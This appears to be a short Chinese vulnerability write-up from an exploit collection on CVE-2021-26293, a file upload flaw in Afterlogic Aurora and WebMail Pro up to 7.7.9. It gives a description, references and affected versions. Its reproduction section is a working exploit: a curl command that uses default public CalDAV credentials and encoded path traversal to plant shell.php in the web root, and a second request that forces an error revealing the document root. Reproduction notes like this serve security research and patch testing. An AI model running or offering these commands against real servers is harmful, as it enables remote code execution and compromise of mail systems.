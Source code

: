 # 

# Afterlogic Aurora & WebMail Pro 文件上传漏洞 CVE-2021-26293

## 漏洞描述

该漏洞是由于Afterlogic Aurora & WebMail Pro中对上传的文件过滤和限制存在缺陷，攻击者可以通过上传恶意文件，从而执行任意代码。

参考链接：

- http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26293
- https://github.com/E3SEC/AfterLogic/blob/main/CVE-2021-26293-rce-via-public-unrestricted-file-upload-vulnerability.md
- https://forum.ywhack.com/thread-115325-1-8.html

## 漏洞影响

```
WebMail Pro ≤ 7.7.9
Afterlogic Aurora ≤ 7.7.9
```

## 漏洞复现

```bash
curl -T shell.php -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/persona/%2e%2e/%2e%2e//%2e%2e//%2e%2e/data//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e/var/www/html/shell.php"
```

默认路径为/var/www/html，也可能更改配置为其它路径，可以尝试其它方式获取。


```bash
curl -X DELETE -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021"
//使用无效路径获取SabreDAV错误查看Webroot路径
```


